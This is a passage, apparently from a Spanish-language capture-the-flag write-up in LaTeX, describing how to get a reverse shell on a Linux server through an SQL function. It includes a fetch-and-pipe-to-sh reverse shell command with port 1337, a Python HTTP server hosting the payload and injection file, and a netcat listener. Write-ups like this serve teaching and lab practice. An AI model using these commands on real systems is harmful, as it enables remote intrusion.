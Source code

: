 \documentclass{article}
\begin{document}
Luego para crear la reverse shell, podemos hacerlo de la forma habitual con monkey pentester, en este caso sabemos que lo va a ejecutar bash porque estamos en un server linux y esta función sql está llamando una shell de sistema, así que podríamos usar la reverse de bash, sin embargo para este caso usaremos un script que te genera varias reverse shell y te usa la más conveniente.

El proceso para generarla es simple, solo te diriges a "https://resh.now.sh/\textbf{yourip}:1337 | sh", es importante este 1337 que sería el puerto que tendríamos que tener en escucha con el nc.
\begin{figure}[H]
	\center
	\includegraphics[width=\textwidth]{images/time/reverse_shell.png}
	\caption{reverse shell}
\end{figure}

Luego tenemos que levantar un servidor en python para que pueda escuchar las peticiones de los archivos que necesitamos, en este la revershe shell y el injection.sql, el comando para esto es "python3 -m http.server \textbf{puerto a usar}", para este caso usaremos el 80 que se habilita con permisos de administrador, pero no es necesario puede ser cualquiera.

\begin{figure}[H]
	\center
	\includegraphics[width=\textwidth]{images/time/server.png}
	\caption{servidor en python3}
\end{figure}

Levantamos en escucha un netcat en el puero 1337, y ejecutamos en la página el código malicioso que obtuvimos del github y hemos modificado.
\end{document}
